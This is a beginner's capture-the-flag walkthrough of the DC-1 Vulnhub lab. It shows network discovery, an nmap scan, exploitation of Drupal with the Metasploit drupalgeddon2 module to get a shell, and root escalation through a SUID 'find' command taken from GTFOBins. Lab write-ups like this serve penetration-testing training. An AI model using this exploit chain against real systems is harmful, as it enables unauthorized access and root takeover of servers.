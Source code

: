 # DC1 Vulnhub Walkthrough

#### Description
DC-1 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.

It was designed to be a challenge for beginners, but just how easy it is will depend on your skills and knowledge, and your ability to learn.

To successfully complete this challenge, you will require Linux skills, familiarity with the Linux command line and experience with basic penetration testing tools, such as the tools that can be found on Kali Linux, or Parrot Security OS.

There are multiple ways of gaining root, however, I have included some flags which contain clues for beginners.

#### There are five flags in total, but the ultimate goal is to find and read the flag in root's home directory. You don't even need to be root to do this, however, you will require root privileges.

Depending on your skill level, you may be able to skip finding most of these flags and go straight for root.

  
  # Scaning
  
  ### Reconnaissance 
  
Sudo NetDiscover
  
![Screenshot from 2023-01-16 01-16-55](https://user-images.githubusercontent.com/108471951/212977979-8eb9986d-cfe5-43c1-94aa-c37492e289ed.png)

Firstly we have to identify the machine IP address using tool like NetDiscover 
### Nmap

nmap -sV 192.168.0.119 (service version scan)

![Screenshot from 2023-01-17 23-48-32](https://user-images.githubusercontent.com/108471951/212979611-b732a639-bb5c-40b0-a1b5-463c7ed54654.png)


It’s a drupal site. This is first time i seen a Site named Drupal


# Exploiting

msfconsole

search drupal

I have searched for exploit for drupal site in metasploit.
Found some exploits. By using them tried to Exploit 

![Screenshot from 2023-01-16 01-19-36](https://user-images.githubusercontent.com/108471951/212982113-653ef59b-b982-4041-b120-1c32feb029e2.png)




use1

show options

set rhosts [target IP]

exploit

![Screenshot from 2023-01-16 01-20-37](https://user-images.githubusercontent.com/108471951/212984577-492ed27c-4f35-4dfb-a98f-e6e3b2723fb3.png)


After trying some exploits [ exploit/unix/webapp/drupal_drupalgeddon2 ] worked and given a meterpeter shell


![Screenshot from 2023-01-18 00-26-17](https://user-images.githubusercontent.com/108471951/212987116-b5d5c9e3-e308-431c-92ce-ce00bcab8eee.png)


Then using the [shell] comannd I got a Shell

![Screenshot from 2023-01-19 00-41-24](https://user-images.githubusercontent.com/108471951/213274935-894ceccf-4251-4e8e-a05d-38a363400f3b.png)


# Privilege Escalation

Then I tried to change directory to root but its not worked , I dont have root privileges.


![Screenshot from 2023-01-19 00-43-04](https://user-images.githubusercontent.com/108471951/213276028-0d9b9a2d-ddc9-4ccd-bbde-43acd7b08ab1.png)



so in GTFOBins website i find a script for gaining root accses { https://gtfobins.github.io/gtfobins/find/#shell }


                  find . -exec /bin/sh \; -quit


![Screenshot from 2023-01-19 01-03-23](https://user-images.githubusercontent.com/108471951/213277047-d1614401-d5ef-4ba0-ba13-d89743d653c9.png)


Now i got root privilege 

![Screenshot from 2023-01-19 01-06-22](https://user-images.githubusercontent.com/108471951/213277800-001027a5-b2de-4b7c-a1bc-5642687e6332.png)

cd root

ls

cat thefinalflag.txt

Successfully found the flag in root directory.


![Screenshot from 2023-01-19 00-47-37](https://user-images.githubusercontent.com/108471951/213278117-02bc05a5-4ab0-424e-a41e-df32a40c5bf4.png)



@robinpaul

#robinpaul


